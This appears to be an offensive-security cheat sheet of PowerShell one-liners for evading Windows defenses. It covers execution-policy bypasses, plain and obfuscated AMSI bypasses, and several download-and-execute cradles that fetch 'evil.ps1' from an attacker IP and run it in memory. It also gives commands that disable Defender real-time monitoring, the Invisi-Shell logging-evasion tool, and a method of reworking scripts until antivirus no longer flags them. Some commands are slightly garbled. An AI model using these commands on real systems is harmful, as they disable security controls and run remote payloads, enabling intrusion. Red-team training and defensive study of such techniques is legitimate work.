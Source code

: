 ## Tricks to Bypass protections

### Execution Policy Protection
---
```powershell
C:> powershell -ExecutionPolicy bypass
C:> powershell -c <cmd>
C:> powershell -encodedcommand
C:> $env:PSExecutionPolicyPreference = "bypass"
```

### AMSI Bypass
---
Plain:
```powershell
C:> "[Ref].Assembly.GetType('System.MAnagement.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublix,Static').SetValue($null,$true)"
```
Obfuscation:
```powershell
C:> sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```
### Memory Execution
---
```powershell
C:> iex New Object Net.WebClient DownloadString('https://webserver/payload.ps1')
```
```powershell
C:> $ie=New-Object -ComObject InternetExplorer.Application;$ie.visible ==$False;$ie.navigate('http 192.168.230.1/evil.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response
```
```powershell
C:> $h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://192.168.230.1/evil.ps1',$false);$h.send;iex $h.responseText
```
```powershell
C:> $wr=[System.NET.WebRequest]::Create("http 192.168.230.1/evil.ps1")
C:> $r=$w. GetResponse()
C:> IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
```
PSv3 Onwards:
```powershell
C:> iex (iwr 'http 192.168.230.1/evil.ps1')
```

### Disable Defender
---
Admin Privileges Required
```powershell
C:> Set-MpPreference -DisableIOAVProtection $true
C:> Set-MpPreference -Disablerealtimemonitoring $true
C:> "[Ref].Assembly.GetType('System.MAnagement.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublix,Static').SetValue($null,$true)"
```
### Invisi Shell
---
From the [Tool GitHub](https://github.com/OmerYa/Invisi-Shell): _Hide your powershell script in plain sight! Invisi-Shell bypasses all of Powershell security features (ScriptBlock logging, Module logging, Transcription, AMSI) by hooking .Net assemblies. The hook is performed via CLR Profiler API._

- Having Admin Privileges:
```powershell
C:> RunWithPathAsAdmin.bat
```
- Non Admin:
```powershell
C:> RunWithRegistryNonAdmin.bat
```

### AMSI Trigger
---
To identify the part of a PowerShell script that is detected by AV. 
Simply provide the path to the script file to scan:
```powershell
C:> AmsiTrigger_x64.exe -i C: AD Tools Invoke PowerShellTcp_Detected.ps1
```
Steps:
- Scan using the tool
- Modify code snippet
- Reescan
- Repeat until we get as result "AMSI_RESULT_NOT_DETECTED" or "Blank"

### References
---
- [Pentest Laboratories](https://pentestlaboratories.com/2021/05/17/amsi-bypass-methods/): Ways to Bypass AMSI
- [AMSI Trigger](https://github.com/RythmStick/AMSITrigger)
- [Invoke Obfuscation](https://github.com/danielbohannon/Invoke Obfuscation)
- [S3cur3Th1sSh1t](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)


